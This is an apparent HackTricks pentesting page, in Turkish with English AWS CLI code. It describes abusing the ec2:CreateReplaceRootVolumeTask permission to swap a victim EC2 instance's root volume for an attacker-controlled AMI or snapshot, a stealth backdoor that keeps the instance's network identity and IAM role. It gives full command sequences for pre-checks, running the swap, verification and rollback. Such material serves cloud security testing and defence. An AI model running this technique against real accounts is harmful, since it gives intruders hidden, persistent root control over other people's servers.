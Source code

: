 # AWS - EC2 ReplaceRootVolume Task (Stealth Backdoor / Persistence)

{{#include ../../../../banners/hacktricks-training.md}}

ec2:CreateReplaceRootVolumeTask yetkisini kötüye kullanarak, çalışan bir instance'ın root EBS hacmini saldırganın kontrolündeki bir AMI veya snapshot'tan geri yüklenmiş olanla değiştirebilirsiniz. Instance otomatik olarak yeniden başlatılır ve ENIs, private/public IPs, bağlı root olmayan hacimler ile instance metadata/IAM rolünü koruyarak saldırganın kontrolündeki root dosya sistemiyle devam eder.

## Gereksinimler
- Hedef instance EBS-backed olmalı ve aynı bölgede çalışıyor olmalı.
- Uyumlu AMI veya snapshot: hedef instance ile aynı mimari/virtualization/boot mode (ve varsa product codes).

## Ön kontroller
```bash
REGION=us-east-1
INSTANCE_ID=<victim instance>

# Ensure EBS-backed
aws ec2 describe-instances   --region $REGION --instance-ids $INSTANCE_ID   --query 'Reservations[0].Instances[0].RootDeviceType' --output text

# Capture current network and root volume
ROOT_DEV=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query 'Reservations[0].Instances[0].RootDeviceName' --output text)
ORIG_VOL=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query "Reservations[0].Instances[0].BlockDeviceMappings[?DeviceName==\`$ROOT_DEV\`].Ebs.VolumeId" --output text)
PRI_IP=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query 'Reservations[0].Instances[0].PrivateIpAddress' --output text)
ENI_ID=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query 'Reservations[0].Instances[0].NetworkInterfaces[0].NetworkInterfaceId' --output text)
```
## AMI'den root'u değiştir (tercih edilen)
```bash
IMAGE_ID=<attacker-controlled compatible AMI>

# Start task
TASK_ID=$(aws ec2 create-replace-root-volume-task   --region $REGION --instance-id $INSTANCE_ID --image-id $IMAGE_ID   --query 'ReplaceRootVolumeTaskId' --output text)

# Poll until state == succeeded
while true; do
STATE=$(aws ec2 describe-replace-root-volume-tasks --region $REGION     --replace-root-volume-task-ids $TASK_ID     --query 'ReplaceRootVolumeTasks[0].TaskState' --output text)
echo "$STATE"; [ "$STATE" = "succeeded" ] && break; [ "$STATE" = "failed" ] && exit 1; sleep 10;
done
```
Snapshot kullanarak alternatif:
```bash
SNAPSHOT_ID=<snapshot with bootable root FS compatible with the instance>
aws ec2 create-replace-root-volume-task   --region $REGION --instance-id $INSTANCE_ID --snapshot-id $SNAPSHOT_ID
```
## Kanıt / Doğrulama
```bash
# Instance auto-reboots; network identity is preserved
NEW_VOL=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query "Reservations[0].Instances[0].BlockDeviceMappings[?DeviceName==\`$ROOT_DEV\`].Ebs.VolumeId" --output text)

# Compare before vs after
printf "ENI:%s IP:%s
ORIG_VOL:%s
NEW_VOL:%s
" "$ENI_ID" "$PRI_IP" "$ORIG_VOL" "$NEW_VOL"

# (Optional) Inspect task details and console output
aws ec2 describe-replace-root-volume-tasks --region $REGION   --replace-root-volume-task-ids $TASK_ID --output json
aws ec2 get-console-output --region $REGION --instance-id $INSTANCE_ID --latest --output text
```
Expected: ENI_ID and PRI_IP remain the same; the root volume ID changes from $ORIG_VOL to $NEW_VOL. The system boots with the filesystem from the attacker-controlled AMI/snapshot.

## Notlar
- API, instance'ı manuel olarak durdurmanızı gerektirmez; EC2 yeniden başlatmayı (reboot) otomatik olarak gerçekleştirir.
- Varsayılan olarak, değiştirilen (eski) root EBS volume ayrılır ve hesaba bırakılır (DeleteReplacedRootVolume=false). Bu geri alma için kullanılabilir veya maliyetlerden kaçınmak için silinmelidir.

## Geri Alma / Temizlik
```bash
# If the original root volume still exists (e.g., $ORIG_VOL is in state "available"),
# you can create a snapshot and replace again from it:
SNAP=$(aws ec2 create-snapshot --region $REGION --volume-id $ORIG_VOL   --description "Rollback snapshot for $INSTANCE_ID" --query SnapshotId --output text)
aws ec2 wait snapshot-completed --region $REGION --snapshot-ids $SNAP
aws ec2 create-replace-root-volume-task --region $REGION --instance-id $INSTANCE_ID --snapshot-id $SNAP

# Or simply delete the detached old root volume if not needed:
aws ec2 delete-volume --region $REGION --volume-id $ORIG_VOL
```
{{#include ../../../../banners/hacktricks-training.md}}

